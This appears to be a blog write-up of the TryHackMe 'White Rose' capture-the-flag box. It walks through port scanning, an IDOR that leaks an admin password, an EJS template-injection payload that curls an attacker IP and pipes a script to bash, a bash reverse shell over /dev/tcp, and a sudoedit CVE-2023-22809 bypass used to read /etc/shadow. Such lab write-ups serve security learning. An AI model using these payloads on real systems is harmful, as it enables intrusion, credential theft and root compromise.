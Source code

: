 ```yaml
---
layout: post
title: White Rose (TryHackMe)
date: 2025-04-19
categories: [CTF, TryHackme]
tags: [SSTI, Sudo]
---
```


### Nmap
```
nmap -p- -T4 <Target-IP> # This will scan all the 65535 port.

nmap -A -p 22,80 -T4 <Target-IP> -oN WhiteRose_Nmap_result # From the above cmd output we can run the 2 ports in Aggressive mode.
```
- Why i didn't ran the "-A" scan in the first command itself it is because scanning all 65535 ports in Aggressive mode takes more time and it is waste of time. That's the reason i ran the results of the first cmd to the second.
- If you don't feel like doing this much we can utilize a tool called rustscan this will automate the above process.

### Rustscan

```
rustcan -a <Target-IP> -- -A -oN WhiteRose_nmap_result

#Cmd Breakdown

-a will scan for all ports
-- will pass the rustscan output to the nmap
-A aggressive mode in Nmap
-oN To save the output
```


### Nmap scan Result
```
22/tcp open  ssh     syn-ack ttl 60 OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    syn-ack ttl 60 nginx 1.14.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.14.0 (Ubuntu)

```
Given creds from the challange `Olivia Cortez:olivi8`

# Enumeration

## HTTP (80)

### Dirsearch
```
dirsearch -u http://<target-IP> 
```

- Nothing Intresting

### Vhost Fuzzing

```
www                     [Status: 200, Size: 252, Words: 19, Lines: 9, Duration: 167ms]
admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 167ms]
```

### admin.cyprusbank.thm

- Login page 
- `Olivia Cortez:olivi8` Using this credentials we can login

![Admin_panel](https://c00lrabbit.github.io/assets/Images/WhiteR-Adm-panel.png){: .center-image }

## IDOR found on msg section in the URL
![IDOR In msg](https://c00lrabbit.github.io/assets/Images/IDOR-Msg.png){: .center-image }

```
Found these creds using IDOR

Gayle Bev : p~]P@5!6;rs558:q
```

Since Gayle is admin we can login as admin using these creds

## Found SSTI in `/settings` 

![ejs-vuln](https://c00lrabbit.github.io/assets/Images/ejs-vuln.png){: .center-image }
- We found ejs and found a RCE about that https://security.snyk.io/vuln/SNYK-JS-EJS-2803307

```
# SSTI Payload
name=test&password=test&settings[view%20options][outputFunctionName]=x;process.mainModule.require(%27child_process%27).execSync('curl http://10.17.X.X:8000');s
```
- We got a hit in our python server

![Python-server](https://c00lrabbit.github.io/assets/Images/python-server.png)

Shell.sh
```bash
bash -i >& /dev/tcp/10.17.X.X/9001 0>&1
```

payload
```
name=test&password=test&settings[view%20options][outputFunctionName]=x;process.mainModule.require(%27child_process%27).execSync('curl http://10.17.X.X:8000/shell.sh|bash');s
```
- we got a shell and user flag

# Privilege Escalation

```bash
sudo -l

(root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm

sudoedit --v
Sudo version 1.9.12p1

```

#### Sudo version 1.9.12p1 leads to a vulnerability

https://www.vicarius.io/vsociety/posts/cve-2023-22809-sudoedit-bypass-analysis

## Exploit

#### To get the root Hash
```
export EDITOR="vi -- /etc/shadow"

sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```
- After running this we can get the root hash then we can crack it through hashcat

```bash
hashcat -a 0 -m 3200 root-hash.txt rockyou.txt
```


#### To get the root flag
```
export EDITOR="vi -- /root/root.txt"

sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

- We got the root flag

## Conclusion

- WhiteRose is inspired from "Mr.Robot" Series, This box gives basic knowledege of SSTI(Server Side Template Imjection) and Priexc using Sudo.
- Most of us will ignore the sudo to check for vuln ("Including me"). This box teach us to check everything.
- Overall it is a stright forward enjoyable box which i like.

## As Heath aka TCM said "Enumeration is key to success"
